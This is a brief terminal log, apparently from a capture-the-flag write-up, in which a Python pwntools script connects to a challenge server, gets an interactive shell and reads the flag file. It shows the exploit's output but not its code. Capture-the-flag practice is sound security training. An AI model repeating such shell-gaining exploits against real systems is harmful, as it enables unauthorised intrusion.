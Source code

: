 ```
[+] Opening connection to offsec-chalbroker.osiris.cyber.nyu.edu on port 1341: Done
[*] Switching to interactive mode
 Ok, I'm writing /bin/sh to my buffer...
$ whoami
pwn
$ ls
flag.txt
git_got_good
$ cat flag.txt
flag{y0u_sur3_GOT_it_g00d!}
$  zsh: suspended (signal)  python3 GitGOTGood_Pwn.py
```

